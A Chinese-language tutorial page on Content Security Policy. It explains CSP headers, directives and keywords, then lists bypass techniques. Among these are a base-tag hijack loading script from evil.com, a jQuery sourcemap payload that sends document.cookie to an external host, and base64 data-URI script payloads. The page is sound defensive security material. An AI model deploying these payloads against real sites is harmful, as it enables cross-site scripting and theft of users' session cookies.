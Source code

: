 CSP
========================================

CSP是什么？
----------------------------------------
Content Security Policy，简称 CSP。顾名思义，这个规范与内容安全有关，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。

配置
----------------------------------------

CSP策略可以通过 HTTP 头信息或者 meta 元素定义。

CSP 有三类：

- Content-Security-Policy  (Google Chrome)
- X-Content-Security-Policy (Firefox)
- X-WebKit-CSP (WebKit-based browsers, e.g. Safari)

::

    HTTP header :
    "Content-Security-Policy:" 策略
    "Content-Security-Policy-Report-Only:" 策略


HTTP Content-Security-Policy 头可以指定一个或多个资源是安全的，而Content-Security-Policy-Report-Only则是允许服务器检查（非强制）一个策略。多个头的策略定义由优先采用最先定义的。

HTML Meta :
::

    <meta http-equiv="content-security-policy" content="策略">
    <meta http-equiv="content-security-policy-report-only" content="策略">


指令说明
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

============    ============
指令            说明     
============    ============
default-src     定义资源默认加载策略
connect-src     定义 Ajax、WebSocket 等加载策略
font-src        定义 Font 加载策略
frame-src       定义 Frame 加载策略
img-src         定义图片加载策略
media-src       定义 <audio>、<video> 等引用资源加载策略
object-src      定义 <applet>、<embed>、<object> 等引用资源加载策略
script-src      定义 JS 加载策略
style-src       定义 CSS 加载策略
base-uri        定义 <base> 根URL策略，不使用default-src作为默认值
sandbox         值为 allow-forms，对资源启用 sandbox
report-uri      值为 /report-uri，提交日志
============    ============

关键字
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``-``
    - 允许从任意url加载，除了 ``data:`` ``blob:`` ``filesystem:`` ``schemes``
    - e.g. ``img-src -``
- ``none``
    - 禁止从任何url加载资源
    - e.g. ``object-src 'none'``
- ``self``
    - 只可以加载同源资源
    - e.g. ``img-src 'self'``
- ``data:``
    - 可以通过data协议加载资源
    - e.g. ``img-src 'self' data:``
- ``domain.example.com``
    - e.g. ``img-src domain.example.com``
    - 只可以从特定的域加载资源
- ``\*.example.com``
    - e.g. ``img-src \*.example.com``
    - 可以从任意example.com的子域处加载资源
- ``https://cdn.com``
    - e.g. ``img-src https://cdn.com``
    - 只能从给定的域用https加载资源
- ``https:``
    - e.g. ``img-src https:``
    - 只能从任意域用https加载资源
- ``unsafe-inline``
    - 允许内部资源执行代码例如style attribute,onclick或者是sicript标签
    - e.g. ``script-src 'unsafe-inline'``
- ``unsafe-eval``
    - 允许一些不安全的代码执行方式，例如js的eval()
    - e.g. ``script-src 'unsafe-eval'``
- ``nonce-<base64-value>'``
    - 使用随机的nonce，允许加载标签上nonce属性匹配的标签
    - e.g. ``script-src 'nonce-bm9uY2U='``
- ``<hash-algo>-<base64-value>'``
    - 允许hash值匹配的代码块被执行
    - e.g. ``script-src 'sha256-<base64-value>'``

配置范例
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

允许执行内联 JS 代码，但不允许加载外部资源
::

    Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';


Bypass
---------------------------------------

预加载
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
浏览器为了增强用户体验，让浏览器更有效率，就有一个预加载的功能，大体是利用浏览器空闲时间去加载指定的内容，然后缓存起来。这个技术又细分为DNS-prefetch、subresource、prefetch、preconnect、prerender。

HTML5页面预加载是用link标签的rel属性来指定的。如果csp头有unsafe-inline，则用预加载的方式可以向外界发出请求，例如

::

    <!-- 预加载某个页面 -->
    <link rel='prefetch' href='http://xxxx'><!-- firefox -->
    <link rel='prerender' href='http://xxxx'><!-- chrome -->
    <!-- 预加载某个图片 -->
    <link rel='prefetch' href='http://xxxx/x.jpg'>
    <!-- DNS 预解析 -->
    <link rel="dns-prefetch" href="http://xxxx">
    <!-- 特定文件类型预加载 -->
    <link rel='preload' href='//xxxxx/xx.js'><!-- chrome -->

另外，不是所有的页面都能够被预加载，当资源类型如下时，讲阻止预加载操作：

- URL中包含下载资源
- 页面中包含音频、视频
- POST、PUT和DELET操作的ajax请求
- HTTP认证
- HTTPS页面
- 含恶意软件的页面
- 弹窗页面
- 占用资源很多的页面
- 打开了chrome developer tools开发工具

MIME Sniff
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
举例来说，csp禁止跨站读取脚本，但是可以跨站读img，那么传一个含有脚本的img，再``<script href='http://xxx.com/xx.jpg'>``，这里csp认为是一个img，绕过了检查，如果网站没有回正确的mime type，浏览器会进行猜测，就可能加载该img作为脚本

302跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
对于302跳转绕过CSP而言，实际上有以下几点限制：

- 跳板必须在允许的域内。
- 要加载的文件的host部分必须跟允许的域的host部分一致

iframe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
当可以执行代码时，可以创建一个源为 ``css`` ``js`` 等静态文件的frame，在配置不当时，该frame并不存在csp，则在该frame下再次创建frame，达到bypass的目的。同理，使用 ``../../../`` ``/%2e%2e%2f`` 等可能触发服务器报错的链接也可以到达相应的目的。

base-uri
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
当script-src为nonce或无限制，且base-uri无限制时，可通过 ``base`` 标签修改根URL来bypass，如下加载了http://evil.com/main.js

::

    <base href="http://evil.com/">
    <script nonce="correct value" src="/main.js"></script>

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- location 绕过
- 可上传SVG时，通过恶意SVG绕过同源站点
- 存在CRLF漏洞且可控点在CSP上方时，可以注入HTTP响应中影响CSP解析
- CND Bypass，如果网站信任了某个CDN, 那么可利用相应CDN的静态资源bypass
- Angular versions <1.5.9 >=1.5.0，存在漏洞 `Git Pull Request <https://github.com/angular/angular.js/pull/15346>`_
- jQuery sourcemap 
    ::

        document.write(`<script>
        //@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);``
- a标签的ping属性
- For FireFox ``<META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">``
- ``<link rel="import" />``
- ``<meta http-equiv="refresh" content="0; url=http://...." />``
- 仅限制 ``script-src`` 时：
    - ``<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>``
